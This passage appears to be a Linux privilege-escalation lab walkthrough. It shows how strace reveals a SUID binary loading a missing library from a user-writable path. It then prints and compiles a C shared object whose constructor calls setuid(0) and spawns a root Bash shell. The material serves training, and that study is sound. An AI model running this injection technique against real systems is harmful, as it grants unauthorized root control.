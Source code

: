 Create the .config directory for the libcalc.so file:

```bash
mkdir /home/user/.config
```

Example shared object code can be found at /home/user/tools/suid/libcalc.c. It simply spawns a Bash shell. Compile the code into a shared object at the location the suid-so executable was looking for it:

```bash
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
```

Execute the suid-so executable again, and note that this time, instead of a progress bar, we get a root shell.

```bash
/usr/local/bin/suid-so
```

**Remember to exit out of the root shell before continuing!**

## #1 - Read and follow along with the above.

```bash
user@debian:~$ ls -l /usr/local/bin/suid-so 
-rwsr-sr-x 1 root staff 9861 May 14  2017 /usr/local/bin/suid-so
user@debian:~$ /usr/local/bin/suid-so 
Calculating something, please wait...
[=====================================================================>] 99 %
Done.
user@debian:~$ strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY)      = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libdl.so.2", O_RDONLY)       = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/usr/lib/libstdc++.so.6", O_RDONLY) = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libm.so.6", O_RDONLY)        = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libgcc_s.so.1", O_RDONLY)    = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libc.so.6", O_RDONLY)        = 3
open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)
user@debian:~$ mkdir /home/user/.config
```

```c
user@debian:~$ cat /home/user/tools/suid/libcalc.c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    setuid(0);
    system("/bin/bash -p");
}
```
